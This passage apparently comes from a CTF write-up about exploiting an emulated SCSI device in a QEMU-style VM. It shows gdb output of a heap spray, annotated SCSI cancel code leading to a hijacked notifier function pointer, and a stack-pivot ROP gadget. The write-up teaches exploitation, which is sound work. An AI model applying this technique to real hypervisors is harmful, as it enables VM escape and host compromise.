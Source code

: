 ```gdb
0016| 0x7fbbd0332ba0 ('A' <repeats 200 times>...)
0024| 0x7fbbd0332ba8 ('A' <repeats 200 times>...)
0032| 0x7fbbd0332bb0 ('A' <repeats 200 times>...)
0040| 0x7fbbd0332bb8 ('A' <repeats 200 times>...)
0048| 0x7fbbd0332bc0 ('A' <repeats 200 times>...)
0056| 0x7fbbd0332bc8 ('A' <repeats 200 times>...)
gdb-peda$ 
```

## pwn
At this point we have `state->cur_req` pointing at our controlled data, and we also can get leaks with the byte by byte brute force discussed earlier.
We can leak `cur_req` which tells us where our controlled data is, and a text leak for gadgets/functions.  

If we proceed to send another request via `ctf_process_req`, it will call `scsi_req_cancel()` on our now controlled data.
Let's see what this does. I've pointed out the path I targeted.
```c
void scsi_req_cancel(SCSIRequest* req) {
    trace_scsi_req_cancel(req->dev->id, ...); // req->dev needs to be dereferencable
    if (req->enqueued == 1) {
        assert(req->io_canceled == 1);
        scsi_req_ref(req); // asserts refcount != 0
        scsi_req_dequeue(req); // need to make sure some linked list pointers are writeable
        if (req->aiocb)
            ...
        else
            scsi_req_cancel_complete(req); // target this
    }
}
void scsi_req_cancel_complete(SCSIRequest* req) {
    if (req->bus->info->cancel)
        req->bus->info->cancel(req); // ehh didnt work out easily
    notifier_list_notify(&req->cancel_notifiers, req); // target this instead
}
void notifier_list_notify(NotifierList* list, void* data) {
    // basically a linked list of function pointers
    // struct Notifier {
    //   void (*notify)(void*, void*);
    //   struct Notifier* next;
    // }
    for (Notifier* cur = list->notifiers.lh_first; cur; ) {
        Notifier* next = cur->next;
        cur->notify(cur, data); // boom
    }
}
```
`system` was in the `plt`, however the arguments to all these function calls are structures whose first fields are pointers, meaning we won't be able to put our command string there.  
Instead I targeted the function pointer call in `notifier_list_notify`. The stack layout after this call will be:
```
 0x0: return address from function pointer call
 0x8: -
0x10: -
0x18: cur
0x20: next
```
We make `cur->notify` point to this gadget: `add rsp, 0x10 ; pop rbx ; pop rbp ; ret`  
This pops `cur` into `rbp`, then rets to whatever `next` is.  

